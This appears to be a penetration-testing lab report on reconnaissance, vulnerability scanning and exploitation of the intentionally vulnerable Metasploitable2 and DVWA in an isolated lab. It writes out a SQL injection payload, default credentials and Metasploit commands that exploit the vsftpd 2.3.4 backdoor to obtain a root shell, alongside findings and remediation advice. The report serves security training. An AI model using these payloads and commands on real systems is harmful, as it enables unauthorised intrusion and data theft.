





# Vulnerability Assessment and Exploitation Lab  
### Zenmap • DVWA • OpenVAS • Metasploit

---

# Executive Summary

This project demonstrates a vulnerability assessment and exploitation workflow conducted in a controlled lab environment. The objective was to identify exposed services on a vulnerable system, perform vulnerability scanning, exploit discovered weaknesses, and document the findings.

The target system used in this lab was **Metasploitable2**, a deliberately vulnerable Linux machine designed for penetration testing practice. Testing activities were conducted from a **Kali Linux** machine using several security tools including Zenmap, OpenVAS, and the Metasploit Framework.

The assessment successfully identified multiple vulnerabilities including a SQL injection vulnerability in a web application and a known backdoor vulnerability in the vsftpd FTP service.

---

# Lab Environment

| Component | Purpose |
|----------|---------|
| Kali Linux | Attacker machine |
| Metasploitable2 | Vulnerable target system |
| pfSense | Firewall |
| Zenmap | Network reconnaissance |
| OpenVAS | Vulnerability scanner |
| DVWA | Vulnerable web application |
| Metasploit Framework | Exploitation tool |

Target system IP address:

```
192.168.56.102
```

---

# Reconnaissance

## Zenmap Network Scan

Initial reconnaissance was performed using **Zenmap**, the graphical interface for Nmap. The scan was conducted from the Kali Linux attacker machine to identify open ports and running services on the target system.

Command executed:

```bash
nmap -T4 -A -v 192.168.56.102
```

Explanation of parameters:

| Option | Description |
|------|-------------|
| -T4 | Faster scan timing |
| -A | Enables OS detection and service enumeration |
| -v | Verbose output |

---

## Scan Results

The scan revealed several open services on the target system.

| Port | Service | Version |
|-----|--------|--------|
| 21 | FTP | vsftpd 2.3.4 |
| 22 | SSH | OpenSSH |
| 23 | Telnet | Telnetd |
| 80 | HTTP | Apache |
| 3306 | MySQL | MySQL Server |

These services provided multiple potential entry points for further testing.


---

# Web Application Testing

## Accessing DVWA

The Damn Vulnerable Web Application (DVWA) hosted on the target server was accessed through a web browser.

Application URL:

```
http://192.168.56.102/dvwa
```

Default login credentials:

```
Username: admin
Password: password
```

After logging in, the security level was configured to **Low** to allow vulnerability testing.


---

## SQL Injection

The SQL Injection module in DVWA was used to test the application for input validation weaknesses.

Test payload:

```
1' OR '1'='1
```

This payload alters the SQL query logic by forcing the condition to always evaluate as true.

Example vulnerable query:

```
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```

Because user input was not sanitized, the application returned all database records.

---

## SQL Injection Result

The application returned multiple database entries including:

```
admin
gordonb
1337
pablo
smithy
```

This confirms that the web application is vulnerable to SQL injection.


---

# Vulnerability Scanning

## OpenVAS Scan

OpenVAS was used to perform automated vulnerability detection on the target system.

Start the OpenVAS service:

```bash
sudo gvm-start
```

Access the web interface:

```
https://127.0.0.1:9392
```

---

## Scan Configuration

Target configured:

```
Name: Metasploitable2
IP Address: 192.168.56.102
```

Scan profile used:

```
Full and Fast
```

The scan analyzed running services and compared them against known vulnerability databases.

---

## Key Vulnerabilities Detected

| Service | Vulnerability | Severity |
|--------|--------------|----------|
| FTP | vsftpd 2.3.4 Backdoor | Critical |
| HTTP | Multiple Web Vulnerabilities | High |
| Telnet | Unencrypted Remote Access | High |
| MySQL | Weak Configuration | Medium |


---

# Exploitation

## Metasploit Framework

The vulnerability scan identified that the FTP service was running **vsftpd 2.3.4**, which contains a known backdoor vulnerability.

Metasploit was used to validate this vulnerability.

Start Metasploit:

```bash
msfconsole
```

Search for the exploit module:

```bash
search vsftpd
```

Result:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

## Exploit Configuration

Load the exploit module:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Set the target host:

```bash
set RHOSTS 192.168.56.102
```

Run the exploit:

```bash
exploit
```

---

## Successful Exploitation

The exploit successfully opened a command shell session on the target system.

Example output:

```
Command shell session 1 opened
```

Verification command:

```bash
whoami
```

Output:

```
root
```

This confirms that remote administrative access was obtained on the target system.


---

# Findings

| ID | Vulnerability | Impact |
|----|--------------|--------|
| F1 | SQL Injection | Database data exposure |
| F2 | vsftpd 2.3.4 Backdoor | Remote root access |
| F3 | Telnet service enabled | Unencrypted remote access |
| F4 | Multiple exposed services | Increased attack surface |

---

# Remediation

To reduce the risk of exploitation, the following security measures are recommended:

- Upgrade or remove outdated services such as **vsftpd 2.3.4**
- Disable insecure services including **Telnet**
- Replace FTP with secure alternatives such as **SFTP**
- Implement proper **input validation and parameterized queries** to prevent SQL injection
- Restrict service access through firewall rules

---

# Conclusion

This project demonstrates how attackers can identify and exploit vulnerable services through reconnaissance, vulnerability scanning, and exploitation techniques. By using tools such as Zenmap, OpenVAS, and Metasploit, multiple weaknesses were successfully identified and validated on the target system.

The lab highlights the importance of proper service configuration, secure web application development, and regular vulnerability assessments to reduce the risk of system compromise.
## Screenshots






